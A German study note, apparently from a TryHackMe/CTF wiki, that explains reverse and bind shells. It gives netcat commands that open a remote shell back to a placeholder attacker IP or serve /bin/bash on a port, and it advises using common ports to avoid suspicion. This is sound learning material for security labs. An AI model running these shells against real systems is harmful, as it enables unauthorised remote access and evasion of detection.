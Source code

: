 # Reverse & Bind Shells
Angelegt Sonntag 23 Oktober 2022

[#cheat-sheets](#Linux:TryHackMe:Reverse & Bind Shells): ganz unten.


* *Reverse Shell*: Code auf Zielrechner stellt Verbindung zu eigenen her (Listener ist der eigene Computer)
* *Bind Shell*: Das Ziel hört und wartet bis es Code erhält.
* [id: shell-nachteile]Sind oft
	* instabil,
	* [#non-interactive](#Linux:TryHackMe:Reverse & Bind Shells),
	* haben eigenartige Formatierungen/Formatierungsfehler, weil sie innerhalb eines Terminal-Prozesses laufen
	* und man kann bspw. **nicht** ``STRG + C`` nutzen, um Prozesse zu beenden, da das die Shell an sich stoppt.
		* Wird alles in [#python](#Linux:TryHackMe:Reverse & Bind Shells), [#rlwrap](#Linux:TryHackMe:Reverse & Bind Shells) & [#socat](#Linux:TryHackMe:Reverse & Bind Shells) behoben.


### Reverse Shell

* kommen zu 90% in CTFs vor
* *Listener* (``-l``) auf dem eigenen Rechner

	sudo nc -lvnp PORT # muss zuerst ausgeführt werden

und Shell beim Ziel
	nc <MEINE IP> PORT -e /bin/bash


* Wie man unter [#reverse-shell-listener](#Linux:TryHackMe:Reverse & Bind Shells) sieht, lautet die Syntax zum starten eines *Listener* ``nc -lvnp PORT``. Für Mehr Informationen zu den Optionen, s. [:Linux:**netcat & socat#Optionen**](../netcat_&_socat.md).
	* Bekannte Ports wie ``53``, ``80``, ``443`` bieten sich an, um weniger Verdacht zu erregen


### Bind Shell

* Genau andersrum zur [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells): Listener (``-l``) sitzt beim Ziel

	nc -lvnp PORT -e /bin/bash # muss zuerst ausgeführt werden
	# oder "cmd.exe" bei Windows
 
und Gegenstück bei mir
	nc ZIEL-IP PORT


* Damit *Bind Shells* funktionieren, muss es also bereits einen *Listener* beim Ziel geben.



Interactive & Non-Interactive
-----------------------------
